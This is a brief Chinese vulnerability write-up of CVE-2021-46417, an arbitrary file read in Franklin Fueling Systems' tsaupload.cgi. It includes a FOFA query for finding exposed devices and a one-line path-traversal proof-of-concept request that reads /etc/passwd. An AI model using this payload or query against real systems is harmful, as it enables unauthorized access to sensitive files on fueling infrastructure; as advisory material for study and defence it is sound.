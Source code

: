 # Franklin Fueling Systems tsaupload.cgi 任意文件读取漏洞 CVE-2021-46417

## 漏洞描述

Franklin Electric Franklin Fueling Systems是美国Franklin Electric公司的一个加油系统。

Franklin Fueling Systems tsaupload.cgi 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件。

## 漏洞影响

```
Franklin Fueling Systems
```

## FOFA

```
"Franklin Fueling Systems"
```

## 漏洞复现

主页面

![image-20220715105504364](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202207151055481.png)

验证POC

```
/cgi-bin/tsaupload.cgi?file_name=../../../../../../etc/passwd&password=
```

![image-20220715105538276](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202207151055335.png)

